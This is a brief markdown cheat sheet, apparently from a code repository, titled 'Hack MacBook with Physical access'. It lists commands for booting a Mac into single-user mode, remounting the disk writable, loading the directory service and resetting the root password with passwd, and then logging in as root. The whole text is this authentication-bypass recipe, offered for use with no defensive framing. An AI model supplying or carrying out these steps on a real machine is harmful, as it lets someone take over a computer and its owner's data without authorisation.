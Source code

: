 # Hack MacBook with Physical access

## Reboot
```command+s```
```/sbin/fsck -fy```
```/sbin/mount -uw/```
```launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist```
```passwd```
## Login as root using new Password
